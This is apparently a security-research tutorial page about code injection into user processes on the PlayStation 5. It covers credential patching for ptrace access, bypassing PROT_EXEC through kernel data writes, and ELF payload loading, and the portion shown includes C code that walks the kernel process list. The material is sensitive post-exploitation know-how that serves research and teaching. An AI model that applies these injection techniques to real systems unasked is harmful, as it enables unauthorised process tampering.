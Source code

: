 # FreeBSD ptrace RFI and vm_map PROT_EXEC bypass (PS5 case study)

{{#include ../banners/hacktricks-training.md}}

## Overview

This page documents a practical Unix/BSD usermode process/ELF injection technique on PlayStation 5 (PS5), which is based on FreeBSD. The method generalizes to FreeBSD derivatives when you already have kernel read/write (R/W) primitives. High level:

- Patch the current process credentials (ucred) to grant debugger authority, enabling ptrace/mdbg on arbitrary user processes.
- Find target processes by walking the kernel allproc list.
- Bypass PROT_EXEC restrictions by flipping vm_map_entry.protection |= PROT_EXEC in the target’s vm_map via kernel data writes.
- Use ptrace to perform Remote Function Invocation (RFI): suspend a thread, set registers to call arbitrary functions inside the target, resume, collect return values, and restore state.
- Map and run arbitrary ELF payloads inside the target using an in-process ELF loader, then spawn a dedicated thread that runs your payload and triggers a breakpoint to detach cleanly.

PS5 hypervisor mitigations worth noting (contextualized for this technique):
- XOM (execute-only .text) prevents reading/writing kernel .text.
- Clearing CR0.WP or disabling CR4.SMEP causes a hypervisor vmexit (crash). Only data-only kernel writes are viable.
- Userland mmap is restricted to PROT_READ|PROT_WRITE by default. Granting PROT_EXEC must be done by editing vm_map entries in kernel memory.

This technique is post-exploitation: it assumes kernel R/W primitives from an exploit chain. Public payloads demonstrate this up to firmware 10.01 at time of writing.

## Kernel data-only primitives

### Process discovery via allproc

FreeBSD maintains a doubly-linked list of processes in kernel .data at allproc. With a kernel read primitive, iterate it to locate process names and PIDs:

```c
struct proc* find_proc_by_name(const char* proc_name){
  uint64_t next = 0;
  kernel_copyout(KERNEL_ADDRESS_ALLPROC, &next, sizeof(uint64_t)); // list head
  struct proc* proc = malloc(sizeof(struct proc));
  do{
    kernel_copyout(next, (void*)proc, sizeof(struct proc));       // read entry
    if (!strcmp(proc->p_comm, proc_name)) return proc;
    kernel_copyout(next, &next, sizeof(uint64_t));                // advance next
  } while (next);
  free(proc);
  return NULL;
}

void list_all_proc_and_pid(){
  uint64_t next = 0;
  kernel_copyout(KERNEL_ADDRESS_ALLPROC, &next, sizeof(uint64_t));
  struct proc* proc = malloc(sizeof(struct proc));
  do{
    kernel_copyout(next, (void*)proc, sizeof(struct proc));
    printf("%s - %d\n", proc->p_comm, proc->pid);
    kernel_copyout(next, &next, sizeof(uint64_t));
  } while (next);
  free(proc);
}
```